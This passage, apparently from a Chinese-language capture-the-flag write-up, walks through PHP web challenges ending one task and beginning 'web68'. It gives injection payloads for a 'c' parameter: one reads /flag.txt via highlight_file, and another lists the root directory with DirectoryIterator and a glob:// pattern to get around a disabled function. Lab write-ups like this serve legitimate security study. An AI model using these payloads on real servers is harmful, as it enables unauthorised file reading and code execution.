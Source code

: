 ```
c=highlight_file("/flag.txt");
```

得到flag

![image-20240122125440350](image/image-20240122125440350.png)

------

#### web68

发现没有代码

![image-20240122221130365](image/image-20240122221130365.png)

提示 highlight_file()被禁用

先查看flag位置

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```
